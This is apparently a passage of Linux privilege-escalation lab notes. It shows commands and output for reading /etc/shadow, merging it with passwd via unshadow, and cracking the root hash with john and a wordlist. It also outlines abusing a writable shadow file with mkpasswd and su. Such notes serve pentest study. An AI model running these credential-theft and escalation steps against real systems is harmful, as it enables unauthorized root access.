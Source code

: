 **/etc/shadow**
```bash
cat /etc/shadow|grep root
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::

```

- use unshadow tool and pass (passwd and shadow)

```bash
unshadow passwd shadow >crack
Created directory: /root/.john

cat crack
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:0:0:root:/root:/bin/bash



```


- use john to crack hash file
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt crack
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (root)
1g 0:00:00:01 DONE (2022-02-21 14:23) 0.8064g/s 1238p/s 1238c/s 1238C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```



***`Weak File Permissions - Writable /etc/shadow`***

[+] Technique: Edit /etc/shadow file<br>
[+] Shadow it's writable/Readable<br>
[+] Steps<br>

- generate password
```bash
mkpasswd -m sha-512 1234
```

- login as root
```bash
su root
```


***`Weak File Permissions - Writable /etc/passwd`***
